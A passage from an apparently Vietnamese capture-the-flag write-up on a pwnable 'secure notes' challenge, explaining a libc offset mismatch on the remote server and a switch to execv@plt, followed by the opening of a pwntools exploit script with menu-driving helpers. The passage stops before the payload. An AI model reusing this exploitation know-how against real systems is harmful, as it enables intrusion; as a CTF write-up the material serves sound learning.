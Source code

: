Tuy nhiên thì còn một vấn đề nữa, đó là sau khi có shell ở local, mình lại fail khi exploit trên remote, sau vài lần thử thì mình nhận ra lý do là vì có lẽ version libc vẫn chưa chuẩn lắm, việc leak được stack thông qua environ có vẻ là một sự may mắn khi offset của environ của libc mình dùng và libc của remote trùng nhau. Cuối cùng thì mình quyết định là thay vì cố gắng tìm libc đúng, mình dùng luôn một plt entry có sẵn là `execv@plt`

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/e94f133f-3ad6-4469-95c1-8b0b36ed662b)

Sau vài lần chạy không trơn tru, cuối cùng mình cũng thành công có được shell trên remote

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/ca4de6e2-ecbc-4796-89e1-83cd1528430a)

```python
from pwn import *
from pwn import unpack, p64, u64

if args.REMOTE:
    io = remote("secure_notes1.pwnable.vn", 31331)
else:
    # io = process(["./interface", "./backend"])
    # io = process(["./interface_orig_patched", "./backend_orig_patched"])
    io = remote("localhost", 8089)


libc = ELF("./libc.so.6.bak", checksec=False)
exe = ELF("./interface_orig", checksec=False)

def add_new_note(title, author, is_encrypted, passwd, content_length, content):
    io.sendlineafter(b"Choice: ", b"1")
    io.sendlineafter(b"Title: ", title)
    io.sendlineafter(b"Author: ", author)
    io.sendlineafter(b"Wanna encrypt this notes? (y/n) ", b"y" if is_encrypted else b"n")
    if is_encrypted:
        io.sendlineafter(b"What is your passwd? ", passwd)
    io.sendlineafter(b"How many bytes for content? ", str(content_length).encode())
    io.sendlineafter(b"Content:", content)

def note_sync(flag):
    io.sendlineafter(b"Choice: ", b"6")
    io.sendlineafter(b"You you want to [s]ync or [c]ommit note? (s/c)", b"c" if flag == 1 else b"s")

def delete_note(title, author, is_encrypted, password):
    io.sendlineafter(b"Choice: ", b"5")
    io.sendlineafter(b"Title: ", title)
    io.sendlineafter(b"Author: ", author)
    if is_encrypted:
        io.sendlineafter(b"Your password? ", password)

def read_note(title, author, is_encrypted, passwd):
    io.sendlineafter(b"Choice: ", b"3")
    io.sendlineafter(b"Title: ", title)
    io.sendlineafter(b"Author: ", author)
    if is_encrypted:
        io.sendlineafter(b"Password?", passwd)

def list_note():
    io.sendlineafter(b"Choice: ", b"2")

def edit_note(title, author, is_encrypted, passwd, content_len, content):
    io.sendlineafter(b"Choice: ", b"4")
    io.sendlineafter(b"Title: ", title)
    io.sendlineafter(b"Author: ", author)

```